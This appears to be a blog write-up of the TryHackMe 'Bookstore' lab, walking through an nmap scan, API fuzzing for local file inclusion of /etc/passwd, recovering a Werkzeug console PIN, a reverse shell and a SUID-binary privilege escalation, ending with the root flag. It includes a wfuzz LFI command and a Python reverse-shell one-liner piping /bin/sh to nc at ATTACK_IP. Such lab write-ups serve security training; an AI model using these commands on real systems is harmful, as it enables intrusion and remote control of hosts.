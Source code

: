 ```yaml
---
title: "Bookstore TryHackMe"
layout: post
date: 2023-08-06 19:00
tag: 
- TryHackMe
- Pentesting
- Bookstore
- Linux
- Web
- Meduim
- API
image: https://tryhackme-images.s3.amazonaws.com/room-icons/aba19a5cfea503b401f5550cb1004e20.jpeg
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "A meduim TryHackMe box, with basic web enumeration and API fuzzing."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Summary

A meduim TryHackMe box, with basic web enumeration and API fuzzing.

---

# Namp

```bash
nmap -A -T4 10.10.255.130   
Starting Nmap 7.91 ( https://nmap.org ) at 2023-08-06 13:58 +01
Nmap scan report for 10.10.255.130
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Book Store
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After accessing the web page in port 80 I found :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806140146.png>)

And port 5000 contains the following page :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806140127.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806140218.png>)

The /api endpoint found in robots.txt gives us information how to use the request to the api :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806140255.png>)

In the source code I found an interesting hint for LFI :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806142124.png>)

Also in the source code of main.js I found another hint, so it may be an indication that there is a version 1 :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806141934.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806142329.png>)

So there is actually a v1! Now, let’s fuzz the API (v1) to find a possible parameter that would allow to read arbitrary files :

```bash
wfuzz -w /usr/share/wordlists/dirb/common.txt --hc=404 "http://10.10.255.130:5000/api/v1/resources/books?FUZZ=/etc/passwd"
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143110.png>)

Found the vulnerable parameter! Now let's read /etc/passwd file :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143244.png>)

Referring to the hint found let's read the user flag :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806141934.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143609.png>)

Using **Gobuster** we can see the */console* endpoint :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143805.png>)

Now let's read the .bash_history file as mentioned in the hint to find the PIN for /console :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143531.png>)

PIN : 123-321-135

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143932.png>)

The bellow blog from **HackTricks** show us how to exploit that :

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug)

Now let's get a revshell :

```bash
__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACK_IP 9999 >/tmp/f').read();
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806144510.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806144343.png>)

I am in as sid user!

# PE

I found an interesting file with the SUID bit set :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806145653.png>)

I downloaded a copy of the binary and analyzed it in Ghidra. Below is the main() function :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806145620.png>)

The program prompts for a number (local_1c), XORs it with `0x1116` and `0x5db3` (local_18) and compares the result with `0x5dcd21f4`. If they match, a root shell will be spawned.

Let’s do the reverse operation to get the correct value that will give us the ability to spawn a root shell:

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806150722.png>)

# Root flag

<p>root@bookstore:~# id</p>
uid=0(root) gid=1000(sid) groups=1000(sid)
<p>root@bookstore:/root# cat /root/root.txt</p>
e29b05fba5b2a7e69c24a450893158e3

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>